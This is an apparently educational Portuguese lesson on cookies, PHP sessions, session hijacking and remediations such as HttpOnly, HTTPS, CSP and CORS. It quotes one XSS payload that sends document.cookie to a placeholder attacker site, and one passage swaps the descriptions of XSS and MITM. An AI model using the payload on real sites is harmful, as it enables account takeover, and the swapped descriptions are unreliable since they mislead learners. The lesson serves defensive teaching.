 # Cookie e Sessão


## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles se mostram úteis, uma vez que 
a conexão HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistente. Se dependêssemos apenas das conexões HTTP, seria impossível usar um carrinho de compras, pois ao trocar para a página de compra, as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_ no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente como volume do player de música ou vídeo, cor do fundo do site, etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito pelo PHP.
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar a sessão (mas ainda não é uma sessão), de forma que um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de vida (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador.

## Sessões

Agora, ao que nos interessa, **os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É graças às sessões que é possível se logar em sites de redes sociais apenas uma vez em muito tempo. Quando o usuário se conecta, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa. A maioria dos sites que implementa esse recurso estabelece uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP

```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão o _cookie_ não existe, então o site manda o browser salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o browser mudar para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo para se tornar administrador do site, burlando todo o sistema de segurança.

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid`, _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_, que terá acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** ou Sequestro de Sessão.

Não tem como evitar que alguém que tenha acesso físico ao seu computador com o navegador aberto na página obtenha sua sessão, mas se ele chegou a esse ponto ele já tem controle total.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**), embora menos comum. O primeiro ataque é descrito basicamente com o atacante entrando no meio da conexão não encriptada (HTTP) e lendo todo o tráfego entre você e o site, incluindo os _cookies_ enviados e sua sessão. O segundo ataque resume-se no atacante injetar código na página de aluguma forma ([Ler mais sobre XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md)), esse código injetado pode ler e modificar o conteúdo dos _cookies_ armazenados.

#### Exemplo de Session Hijacking por meio de XSS

```htmlmixed
<script type="text/javascript">
new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um script no site dele para salvar o cookie que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.



## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, mas uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de javascript, seja ele legítimo da página ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ (possivelmente uma sessão) ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante. (Mesmo assim, ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS]((https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md))

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
https://developer.mozilla.org/en-US/docs/Tools

---
